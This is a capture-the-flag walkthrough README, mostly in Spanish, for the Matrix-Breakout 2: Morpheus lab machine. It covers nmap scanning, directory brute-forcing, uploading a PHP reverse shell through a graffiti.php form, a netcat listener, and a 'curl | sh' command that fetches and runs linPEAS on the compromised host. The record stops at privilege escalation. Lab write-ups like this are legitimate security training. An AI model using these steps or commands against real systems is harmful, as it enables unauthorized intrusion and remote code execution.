





# Projecto-Final-Ciberseguridad-Final-Project-Cibersecurity
Matrix-Breakout: 2 Morpheus solution with proper documentation in spanish and english.

This is the second in the Matrix-Breakout series, subtitled Morpheus:1. It’s themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

Difficulty: Medium-Hard

Empezaremos por importar las dos maquinas y ajustarlas bajo una misma red virtual.


Ya con las maquinas levantadas, vamos a empezar con un escaneo inicial para saber nuestra ip a atacar
Para ello usaremos arp-scan 
```
sudo arp-scan -l
```


ya con esta informacion comprobaremos que la maquina este activa haciendo un ping a la ip
````
ping 192.168.116.129
````


Con esto ya podemos empezar a trabajar con nmap para ver que servicios estan abiertos en la maquina
o sea empezar con la fase de escaneo de puertos.
````
nmap --open -vv -T5 -p- 192.168.116.129
````


Y ahora podemos hacer otro nmap pero sobre los puertos abiertos para encontrar puntos de acceso

````
nmap -sC -sV -p 22,80,81 192.168.116.129
````


Con esto podemos observar que el puerto 80 esta abierto y que es un servidor web, asi que vamos a probarlo


Y con esto ya empieza nuestro juego de infiltracion.

Empezaremos con un escaneo del codigo fuente de esta pagina web.


Y tambien revisaremos el codigo de enumeracion (guardado por defecto en robots.txt)


En este caso vemos que el robots.txt esta bien guardado y nos da un mensaje de seguridad.

Nos hemos topado con un callejon sin salida, pero al mal tiempo buena cara o medidas desesparadas
usemos la fuerza bruta para encontrar mas directorios expuestos en el puerto 80

Para ello usaremos nuestra herramienta dirBuster y sus listas de palabras incluidas


Lo iniciaremos y esperaremos a que termine de buscar directorios




Encontrasmos un directorio llamado graffiti.php quien tambien nos da acceso con un codigo 200 vamos a revisarlo


cada mensaje que esciribimos en la casilla de mensjae es revisado por el servidor y se coloca en una lista que se ve en pantalla.



Ya tenemos una posible vulnerabilidad de sql injection o un php injection reversal.
pero para verificar que lo que suponemos es cierto usaremos la herramienta burpsuite que es muy parecida a wireshark pero esta es mas enfocada en un solo target.




Como podemos observar todos los datos se guardan en un archivo txt que sera procesado por php.


Que podemos hacer con esto?
php reverse shell una version sencilla puede ser encontrada en este repositorio.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

usaremos la herramienta de burpsuite para mandar este reverse shell como una request en el message y dando como file en vez de un txt un php para que el servidor lo procese.
modificaremos la ip y el puerto para que se conecte a nuestra maquina usaremos el puerto 9999 por que sabemos que no sera usado.
(Mucho ojo en este paso pues un error puede destruir la maquina que estamos atacando como ya me paso a mi en una ocasion y por eso veran una direccion ip de la maquina morfeo distinta 192.168.116.130)


posteriormente pondremos un netcat a escuchar en el puerto 9999 y nos conectaremos a nuestra maquina.
````
nc -lnvp 9999
````
al hacer otra request cualquiera recibiermos esto


y como podemos observar entramos


y con esto obtenemos nuestra primera flag


Ahora tendremos que escalar privilegios para poder obtener la segunda flag.
Como lo haremos? facil utilizaremos otro script que nos permite escalar privilegios llamado linPEAS (Linux Privilege Escalation Awesome Script).
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

lo ejecutaremos directamente en la maquina con este comando
````
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
````


Este script nos dara mucha informacion util pero nos centraremos en los exploits abiertos o sin corregir que tiene la maquina


